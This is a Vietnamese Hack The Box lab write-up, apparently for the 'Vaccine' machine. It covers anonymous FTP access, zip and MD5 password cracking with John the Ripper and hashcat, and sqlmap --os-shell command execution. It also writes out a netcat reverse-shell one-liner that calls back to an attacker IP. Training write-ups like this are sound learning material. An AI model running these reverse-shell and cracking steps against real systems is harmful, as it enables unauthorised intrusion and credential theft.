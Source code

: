 ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5662756c-ae90-41ca-9fd1-6b2dc4de3824)

- Chạy nmap -sV -T4 quét các dịch vụ chạy trên máy chủ

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/fe21aece-cacf-4e33-9df8-38c1df972a5f)

* Task 1: Besides SSH and HTTP, what other service is hosted on this box?: ftp
- Ta cần thu thập thêm thông tin về dịch vụ chạy lệnh: nmap -sC -T4 "ip"

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5eb0427b-97ac-44d2-8f8d-e39c4445e7db)

- Điều cần chú ý ở đây là FTP: giao thức truyền tệp qua mạng, hoạt động theo mô hình client-server
* Task 2: This service can be configured to allow login with any password for specific username. What is that username?:  Anonymous
- Tiến hành đăng nhập bằng username: anonymous.
- command: ftp anonymous@10.129.95.174

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1b95ed0e-7c6d-4f93-8c66-33286c1bcc04)

- Sử dụng lệnh ls để liệt kê thư mục, file. Ta thấy có 1 file là backup.zip. Sử dụng lệnh get để tải file xuống
*  Task 3: What is the name of the file downloaded over this service?: backup.zip

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/44b107cc-6c0a-49fc-9483-06bf3f3ab6e1)

- Tiến hành giải nén file, file có mật khẩu. Sử dụng john the ripper để crack mật khẩu.
- Task 4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?: zip2john

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/be6c18c3-dfe3-47bd-b66a-46d8aa6b6f24)

- Crack không được, ta dùng wordlist để bẻ khóa (dùng wordlist rockyou.txt)

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/e74ef254-78ba-4728-9eae-54320ebb52d1)

- lấy được password: 741852963
- Tiến hành giải nén file backup được 2 file là index.php và style.css
- Ta quan tâm đến file index.php
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1a19ce53-dbad-4f3f-ad70-4bb1e0b322d6)

- Thấy được user là admin là mật khẩu là 1 mã hax: dùng tiếp john the ripper để crack.
- Chạy không ra => dùng hashcat 
- hashcat -m 0 -a 0 vaccine2.txt /usr/share/wordlists/rockyou.txt
- trong đó -m là hash mode 0 là md5, -a attack mode  0 | Straight
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/389030fd-416c-4c61-a0bc-badc488057f9)

- Task 5: What is the password for the admin user on the website?: qwerty789
- Đề bài ở đây là thực thi sql injection: sử dụng sql map.
- Tạo 1 file là new.req để lưu request.
- Dùng burpsuite bắt requets copy-> new.req
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/37a107c6-cce8-4340-8167-fcec10e9dc59)

- Sử dụng sqlmap -r new.req --os-shell
- Tham số -r là đọc request từ file new.req, tham số --os-shell để thực thi lệnh shell từ xa. 
- Task 6: What option can be passed to sqlmap to try to get command execution via the sql injection?: --os-shell
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/c4679cf5-719d-4233-920c-2e0217587f6e)

- lệnh shell: (rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 1234 >/tmp/f)
+ Sẽ tạo tệp fifo: tệp để truyền dữ liệu giữa các tiến trình: ip 10.10.14.22(ip của máy tấn công: ifconfig, tun0) cổng 1234 
+ Sau khi thực thi lệnh xong.
+ mở terminal chạy netcat để lắng nghe trên cổng 1234 
+ để shell hoạt động trơn tru vip pro hơn: 
      python3 -c 'import pty;pty.spawn("/bin/bash")'
      CTRL+Z
      stty raw -echo
      fg
      export TERM=xterm
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/4691fbcf-a4c7-412e-a7ce-77da3fb87460)

- Cat user.txt ra được flag 1
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/580a4340-46f4-4546-b392-9dc49a411e43)
- Mò được đến thư mục www/html/ thì mở file dashboard.php ra thấy pass của user postgres
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/49499894-6444-4431-82e2-e97c685c28f2)
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/85c4e920-dd0f-403f-9ce4-ea314001fb8b)
- kết nối ssh đến user và pass đã có. 
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/a4ecc9d8-daad-4f01-98c5-4630a8b53d2a)

